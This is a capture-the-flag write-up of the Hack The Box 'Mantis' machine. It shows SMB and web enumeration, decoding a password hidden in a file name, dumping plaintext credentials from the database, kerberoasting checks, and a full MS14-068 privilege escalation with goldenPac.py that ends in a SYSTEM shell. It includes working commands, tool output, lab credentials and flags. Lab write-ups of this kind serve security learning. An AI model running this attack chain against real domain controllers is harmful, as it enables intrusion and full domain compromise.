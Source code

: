 port 88 (jkerberos)
port 445 (smb)
port 135 (ldap)

Utilizing port 445(smb), I utilize crackmapexec to collect additional information about the victim's machines.
``` 
❯ crackmapexec smb 10.10.10.52

SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
```

Crackmapexec provided me some information , such as the domain name, which I then saved in my hosts file.

Next I attempted to use smbmap to list the shared drivers. However, I encountered an  "Authentication error ". This indicates that I need credentials to access the shared drivers.

I began by enumerating the http ports on the website
``` bash
10.10.10.52:1337 # The typical IIS7 image
# enumerate with wfuzz or gobuster
gobuster dir -u http://10.10.10.52:1337/ -w /usr/share/seclist.... --add-slash -x php,html,txt

# Waiting for the gobuster scan I enumerate another port
10.10.10.52:8080 # Some blog and panel login -> Nothing interesant

```

After gobuster finished the scan, the tool discovered two directories: "orchard" and "secure_notes"
When I checked the  "secure_notes" directory, I found a .txt file containing some instructions. The file's name appeared to be a string encoded in base64.
``` bash
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

After decoding the string, I obtained a hexadecimal string. To reverse it, I used the "xxd" tool

``` bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

I obtained credential and information from the note, Port 1433 is associated with the Microsoft SQL Server service , and I can attempt to connect to it using these credentials.

```
blog_Orchard_Users_UserPartRecord
2	admin		admin	AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==	Hashed
15	James	james@htb.local	james	J@m3s_P@ssW0rd!	Plaintext

	james J@m3s_P@ssW0rd!
```

I obtain credentials and then verify them using crackmapexec
``` 
❯ crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

These credentials are valid, I am using them to enumerate domain users with rpcclient
``` 
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "enumdomgroups"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "querygroupmem 0x200"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "queryuser 0x1f4"
```

When I receive a username, I always check for "ASREProast Attack" and "kerberoasting attack"
``` bash
GetNPUsers htb.local/ -no-pass -usersfile users -> ASREProast attacl
GetUserSPNs htb.local/james@10.10.10.52 -> kerberoasting attack
```

As the user james I can't do anything for the moment

I'm going to gather information and potential attack vectors with bloodhound
``` bash
bloodhound-python -c ALL -ns 10.10.10.52 -d htb.local -u 'james' -p 'J@m3s----'
neo4j console
bloodhound
```

The Bloodhound tool didn't provide me with any interesting results.
I need search for more information. I'm using the repository "PayloadsAllTheThings/Methodology and Resources/Active Directory Attack.md(ms14-068)" https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#from-cve-to-system-shell-on-dc
``` bash
goldenPac.py htb.local/james@10.10.10.52 #this give me another domian, I save it in my hosts file (mantis and mantis.htb.local)

❯ goldenPac.py htb.local/james@mantis
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file HrJEEonA.exe
[*] Opening SVCManager on mantis.....
[*] Creating service oCvV on mantis.....
[*] Starting service oCvV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

I gained acces as "nt authority\system" simpy by exploiting the MS14-068 vulnerability with goldenPac tool
	User flag 5abd3b98a6326562c93825ac30d63da1
root flag cdc2ac1467172cda8f8b6fbdf008300c




